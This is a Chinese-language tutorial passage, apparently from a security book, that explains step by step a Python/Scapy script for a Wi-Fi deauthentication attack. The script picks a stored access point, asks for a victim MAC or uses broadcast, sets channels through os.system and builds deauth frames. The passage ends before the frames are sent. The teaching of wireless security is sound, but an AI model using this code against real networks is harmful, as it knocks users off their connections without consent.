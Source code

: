 现在，让我们看看以下代码：

+   导入必要的模块和库：

```py
      from scapy.all import *
      import shelve 
      import sys
      import os
      from threading import Thread
```

+   以下代码打开`wireless_data.dat`文件，获取信息，并显示给用户：

```py
      def main():
         interface = "mon0"
         s = shelve.open("wireless_data.dat")
         print "Seq", "\tBSSID\t\t", "\tChannel", "SSID"
         keys= s.keys()
         list1 = []
         for each in keys:
            list1.append(int(each))
            list1.sort()
         for key in list1:
            key = str(key)
            print key,"\t",s[key][0],"\t",s[key][1],"\t",s[key][2]
         s.close()
```

+   以下代码要求用户输入 AP 序列号。如果用户想指定任何受害者，那么用户可以提供受害者机器的 MAC；否则，代码将选择广播地址：

```py
        a = raw_input("Enter the seq number of wifi ")
        r = shelve.open("wireless_data.dat")
        print "Are you Sure to attack on ", r[a][0]," ",r[a][2]
        victim_mac = raw_input("Enter the victim MAC or for broadcast 
        press 0 \t")
        if victim_mac=='0':
          victim_mac ="FF:FF:FF:FF:FF:FF"
```

+   所选 AP 正在使用的信道号；以下代码段为`mon0`设置相同的信道号：

```py
        cmd1 = "iwconfig wlan1 channel "+str(r[a][1])
        cmd2 = "iwconfig mon0 channel "+str(r[a][1])
        os.system(cmd1)
        os.system(cmd2)
```

+   这段代码非常容易理解。`frame= RadioTap()/ Dot11(addr1=victim_mac,addr2=BSSID, addr3=BSSID)/ Dot11Deauth()`语句创建去认证数据包。从本章的第一张截图中，您可以检查这些地址：

```py
  BSSID = r[a][0]
  frame= RadioTap()/ Dot11(addr1=BSSID,addr2=victim_mac, addr3=BSSID)/ 
  Dot11Deauth()
  frame1= RadioTap()/ Dot11(addr1=victim_mac,addr2=BSSID, addr3=BSSID)/ 
  Dot11Deauth()
```
